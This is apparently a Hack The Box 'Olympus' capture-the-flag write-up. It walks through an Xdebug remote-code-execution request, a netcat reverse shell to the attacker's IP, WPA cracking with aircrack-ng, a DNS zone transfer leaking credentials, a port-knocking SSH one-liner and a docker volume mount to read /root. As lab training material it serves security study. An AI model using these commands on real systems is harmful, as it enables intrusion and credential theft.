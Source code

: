 ```yaml
---
date: 2019-08-15
title: 'Hack The Box - Olympus Writeup'
template: post
categories:
 - HTB
tags:
 - HTB
---
```


I begun by scanning the box to find some interesting ports.

```
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
80/tcp   open     http    Apache httpd
2222/tcp open     ssh     (protocol 2.0)
```

Port 80 was open so I visited the site and found a picture of the almighty God Zeus. I checked the response headers in the developer console and noticed the `xdebug` variable. According to my google fu, it's a PHP debugger which among other things, can be used to debug [*remote*](https://xdebug.org/docs/remote) PHP applications. 

I continued to recon the web for more info and found the following links:

[https://github.com/rapid7/metasploit-framework/pull/9916](https://github.com/rapid7/metasploit-framework/pull/9916)

[https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface](https://github.com/rapid7/metasploit-framework/pull/9916)

I used the script found in the last link. All you need to do is to setup a GET parameter and specify your attack IP in `X-FORWARDED-FOR`. I ran the `xdebug.py` script and sent the following HTTP request:

```
GET /index.php?XDEBUG_SESSION_START=phpstorm HTTP/1.1
Host: 10.10.10.83
User-Agent: Mozilla/5.0 (X11; Windows x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-FORWARDED-FOR: 10.10.14.7
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

The machine connected back to my attack machine! Next I setup a listener `nc -lvp 1337` and ran the following command from `xdebug.py`: `system("nc -e /bin/bash 10.10.10.14.7 1337")` which ran on the victim's box and created a reverse shell for me to use.

### WHAT'S IN THE BOX!?!?
After gaining access I looked for `user.txt` but couldn't find it. After checking the home folder of `zeus`, checking the process list with `ps aux` and checking the root directory, I started to think this must be a docker container. I uploaded `linenum.sh` which later also reported to believe that the host was actually a docker container.

The user `zeus` had downloaded the project `airgeddon` from github which is a tool for attacking wireless networks. Inside the project I found a .pcap file and a .txt file with the following message:

```
Captured while flying. I'll banish him to Olympia - Zeus
```

I opened the .pcap file and realised it was encrypted WLAN traffic, so I fired up `aircrack-ng` and got crackin! After 40 minutes using `rockyou.txt` as my wordlist, I found the password: `flightoficarus`. Inside the .pcap I could see clients connecting to an accesspoint called: `Too_cl0se_to_th3_Sun`.

I continued to scan the .pcap for more information but couldn't find anything. So I begun trying to SSH into the machine at port 2222 with different credentials, using greek mythology as my starting point. Everything I tried failed. One week later I try the same credentials again and voila, I had access. Why this didn't work the first time, I don't know. My guess is that people were hammering the machine hard so I timed out.

```
icarus:Too_cl0se_to_th3_Sun
```

Turned out this was an other docker container, I deduced that from the hostname and process list. There was only one file available, which had the following contents:

```

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb

```

Okey, so now I have a new domain, and port 53/tcp was open according to my port scan, that can only mean one thing...DNS ZONE TRANSFER!

First I ran the following:

```
root@kali:~/Sites/htb-notes/olympus/http_serve# host -l ctfolympus.htb 10.10.10.83
Using domain server:
Name: 10.10.10.83
Address: 10.10.10.83#53
Aliases: 

ctfolympus.htb has address 192.168.0.120
ctfolympus.htb name server ns1.ctfolympus.htb.
ctfolympus.htb name server ns2.ctfolympus.htb.
mail.ctfolympus.htb has address 192.168.0.120
ns1.ctfolympus.htb has address 192.168.0.120
ns2.ctfolympus.htb has address 192.168.0.120
```

Okey nice, lets run the dns zone transfer!

```
root@kali:~/Sites/htb-notes/olympus/http_serve# dig axfr @ctfolympus.htb ctfolympus.htb

; <<>> DiG 9.11.3-1-Debian <<>> axfr @ctfolympus.htb ctfolympus.htb
; (1 server found)
;; global options: +cmd
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.		86400	IN	A	192.168.0.120
ctfolympus.htb.		86400	IN	NS	ns1.ctfolympus.htb.
ctfolympus.htb.		86400	IN	NS	ns2.ctfolympus.htb.
ctfolympus.htb.		86400	IN	MX	10 mail.ctfolympus.htb.
crete.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
hades.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
mail.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns1.ctfolympus.htb.	86400	IN	A	192.168.0.120
ns2.ctfolympus.htb.	86400	IN	A	192.168.0.120
rhodes.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN	TXT	"Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.	86400	IN	CNAME	ctfolympus.htb.
ctfolympus.htb.		86400	IN	SOA	ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 46 msec
;; SERVER: 10.10.10.83#53(10.10.10.83)
;; WHEN: Mon May 14 19:27:19 CEST 2018
;; XFR size: 15 records (messages 1, bytes 475)
```

DNS zone transfer lets us get a copy of the zone file, so now we can see everything! The thing that stood out the most was:

```
ctfolympus.htb.		86400	IN	TXT	"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
```

My thinking here was that the user `prometheus` needs to perform port knocking which will then open allow us to login via ssh on port 22, which was set to filtered according to my port scan.

Easy peasy one liner:

```
for port in 3456 8234 62431; do nc ctfolympus.htb $port 2> /dev/null; done; sshpass -p 'St34l_th3_F1re!' ssh -o "StrictHostKeyChecking no" prometheus@ctfolympus.htb
```

`sshpass` is a package which allows you to set the SSH password as an input parameter.

```bash
Welcome to
                            
    )         (             
 ( /(     )   )\ )   (      
 )\()) ( /(  (()/(  ))\ (   
((_)\  )(_))  ((_))/((_))\  
| |(_)((_)_   _| |(_)) ((_) 
| ' \ / _` |/ _` |/ -_)(_-< 
|_||_|\__,_|\__,_|\___|/__/ 
                           
prometheus@olympus:~$
```

Aww yeee, we got access to the host machine and not some stupid container! Since I knew the host was running docker, I tried some commands to see what I could do, and to my surprise, I could do anything!

In order to get `root.txt`, all we need to do is to simply start a container and map root's home directory into the container. First I tried to use a ubuntu image but that didn't work, so I checked `docker images` and picked one from there.

```
prometheus@olympus:~$ docker run --volume=/root:/volumes -i -t olympia /bin/bash
root@1c2a720c4fa5:/#
root@1c2a720c4fa5:/# ls /volumes/
root.txt
root@1c2a720c4fa5:/# cat /volumes/root.txt 
aba486990e2e849e25c23f6e41e5e303
root@1c2a720c4fa5:/#
```

And there you go.